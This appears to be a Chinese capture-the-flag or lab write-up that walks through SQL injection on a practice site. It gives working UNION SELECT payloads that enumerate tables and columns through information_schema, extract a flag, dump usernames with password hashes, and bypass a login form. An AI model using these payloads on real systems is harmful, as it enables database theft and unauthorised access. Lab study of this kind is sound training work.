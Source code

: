 SQL 注入

1、猜测列数

 ``` 
  order by 2 --+'
 ```

2、联合查询

2.1 查询数据库名

```
 ' union select 1,database() from information_schema.tables --+'
```

2.1 查询表名

```
unon select group_concat(table_name),database()  from information_schema.tables where table_schema='sziit' --+'
```

Flag,emails,emails,referers,uagents,users

2.2 查询列名

```
' union select group_concat(column_name),2  from information_schema.columns where table_name='Flag' --+'
```

flag

2.3 获取目标

```
' union select group_concat(flag),2  from sziit.Flag --+'
```

flag{sziit_easy}





Dumb:bdc9b127f96d62a37b4425d6d3b100e8642586f5,

Angelina:58011b56a915cb05bd7e6b24b78ac9ecb8a2145f,

Dummy:36e618512a68721f032470bb0891adef3362cfa9,

secure:e6c9c06c4a28eae6d75bf7283481d256ab2626b4,

stupid:a17b85f1edab9ecfea2b05da9267c5714c1665e0,

superman:53d5137e0bc2123e5d2cbdb3e89895c2c84eb75f,

batman:b8671c54326cdbe4d4d67f68f3d247775872a7a0,





```sql
username=admin'union(select(1),('admin'),('356a192b7913b04c54574d18c28d46e6395428ab'))--+'&password=1&submit=submit
```

